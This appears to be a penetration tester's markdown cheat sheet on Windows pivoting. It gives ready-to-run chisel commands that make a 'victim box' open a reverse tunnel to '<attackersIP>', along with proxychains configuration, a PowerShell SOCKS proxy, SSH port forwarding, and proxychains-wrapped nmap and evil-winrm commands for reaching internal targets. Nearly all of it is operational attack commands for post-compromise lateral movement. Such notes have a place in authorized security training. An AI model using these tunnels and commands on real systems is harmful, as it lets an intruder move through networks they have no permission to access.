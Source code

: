 # Windows pivoting

### Chisel for Windows
https://github.com/jpillora/chisel/releases

```
Understanding => R:1234(Remote Port):127.0.0.1(localhost):1234(Local Port)


Victims Box: .\chisel.exe client <attackersIP>:8011 R:1234:127.0.0.1:1234
Attackers Box: .\chisel.exe server -p 8011 --reverse
```

### ippsec demonstration Proxychains
https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=5446  

```
Configuring Proxychains:

vim /etc/proxychains.conf

comment proxy_dns
uncomment quiet_mode
remove any entries within proxy list
add socks5 127.0.0.1 1080

Setting up chisel:

attackers box: 
./chisel server -p 8000 --reverse

victims box:
.\chisel.exe client <attackersIP>:8000 R:8001:127.0.0.1:1337

victims box:
.\chisel.exe server -p 1337 --socks5

attackers box:
./chisel client 127.0.0.1:8001 socks

Testing proxychains command:

proxychains nmap -sT <TargetIP> -p445 -Pn
proxychains evil-winrm.rb -i <IP> -u user -p pass
```

### Standard Proxychains:  

https://medium.com/@vegardw/reverse-socks-proxy-using-chisel-the-easy-way-48a78df92f29  

```
./chisel server -p 8080 --reverse

.\chisel.exe client <IP>:8080 R:socks

Edit Proxychains config file:
/etc/proxychains.conf

Add the following:
socks5 127.0.0.1 1080
```

### Using powershell to SOCKS Proxy (Thanks to @sinfulz for recommending this)
```
From Kali: Edit /etc/proxychains.conf, add "socks5 9080" at the bottom.
From Victim Box: Import-Module .\Invoke-SocksProxy.ps1
From Victim Box: Invoke-SocksProxy -bindPort 9080
From Kali: proxychains nmap -sT <target_IP> -Pn
```

### Port Forwarding using SSH
```
ssh -L <PORT>:127.0.0.1:<PORT> <USERNAME>@<REMOTE_ADDR>
ssh -L <PORT>:127.0.0.1:<PORT> <USERNAME>@<REMOTE_ADDR> -p 22
```

